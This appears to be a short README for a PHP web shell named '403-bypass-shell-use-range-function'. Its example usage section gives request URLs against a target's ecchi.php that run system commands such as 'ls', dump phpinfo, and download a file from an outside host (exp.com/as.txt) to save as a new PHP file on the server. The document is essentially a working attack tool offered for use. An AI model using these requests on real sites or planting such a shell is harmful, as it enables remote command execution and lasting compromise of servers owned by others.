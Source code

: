 # 403-bypass-shell-use-range-function

## Example Usage
```
Command execution
http://target.com/ecchi.php?a=system&ecchi[]=ls

Get phpinfo
http://target.com/ecchi.php?a=phpinfo&ecchi[]=-3

Create file
http://target.com/ecchi.php?a=sum&ecchi[]=(url file ex: http://exp.com/as.txt)&ecchi[]=(name file ex: as.php)
```

## LICENSE
[GNU GPL v3](LICENSE)

